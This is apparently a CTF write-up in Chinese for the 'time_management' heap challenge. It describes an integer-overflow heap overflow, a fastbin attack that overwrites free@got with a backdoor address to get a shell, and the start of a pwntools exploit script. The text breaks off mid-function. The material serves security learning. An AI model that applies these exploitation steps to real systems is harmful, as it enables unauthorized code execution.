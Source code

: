 该程序有着**分配、修改、释放堆块**的功能，~~一看就是一道很难的堆题~~

我们发现在用以读入输入的`sub_400896()`函数中存在整数溢出漏洞：当我们输入的长度为0时，由于其会先减一再转换成unsigned int类型，发生整数溢出，导致我们可以输入较长的内容到堆块上

![image.png](img/06d2d3522d3da9e2ff6b12612ffd1298.png)

同时我们发现存在白给的后门函数`:
![image.png](img/0d520540c82287a5f8d5ab384f32ec22.png)

由于got表开启了读写权限，故考虑**fastbin attack**：伪造fake chunk改写got表中free的地址为后门函数地址，之后随意释放一个堆块即可getshell

由于堆块指针表位于bss段，故我们考虑将其中一个指针的地址改写为free@got后直接edit即可

构造exp如下：

```
from pwn import *
p = remote('pwn.challenge.lctf.online',10069)
e = ELF('./time_management')

ptr_array = 0x6020c0
backdoor_addr = 0x400c9f

def alloc(size:int,content):
    p.recvuntil(b'Your choice : ')
    p.sendline(b'1')
    p.recvuntil(b'How many minutes will it take you to finish?')
    p.sendline(str(size).encode())
    p.recvuntil(b'Content of the plan: ')
    p.sendline(content)

def edit(index:int,size:int,content):
    p.recvuntil(b'Your choice : ')
    p.sendline(b'2')
    p.recvuntil(b'Index : ')
    p.sendline(str(index).encode())
    p.recvuntil(b'How many minutes will it take you to finish?')
    p.sendline(str(size).encode())
    p.recvuntil(b'Content of the plan: ')
    p.sendline(content)

def free(index:int):
```